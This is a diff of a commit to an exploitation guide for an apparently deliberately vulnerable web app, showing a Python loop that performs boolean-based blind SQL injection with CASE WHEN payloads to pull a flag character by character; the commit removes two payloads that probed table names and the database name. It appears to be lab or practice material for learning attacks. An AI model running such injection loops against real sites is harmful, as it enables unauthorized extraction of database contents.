

Before and after one commit to Mgh-Zakariae/Vulnerable_web_app, a Markdown page: Exploitation_Guide.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

```diff
--- a/Exploitation_Guide.md
+++ b/Exploitation_Guide.md
@@ -126,8 +126,6 @@ print("#### Start Exploit")
 for i in range(1, 40):
     for l in array:
         payload = f"CASE WHEN (select BINARY SUBSTRING(flag,1,{i}) from flag) = '{flag+l}' THEN title ELSE category END"
-        payload = f"CASE WHEN (select BINARY SUBSTRING(table_name,1,{i}) from information_schema.tables LIMIT 1) = '{flag+l}' THEN title ELSE category END"
-        payload = f"CASE WHEN (select BINARY SUBSTRING(database(),1,{i})) = '{flag+l}' THEN title ELSE category END"
         encoded_payload = urllib.parse.quote_plus(payload)  # Encode the payload properly
 
         req = requests.get(url + encoded_payload, cookies=cookies)
```
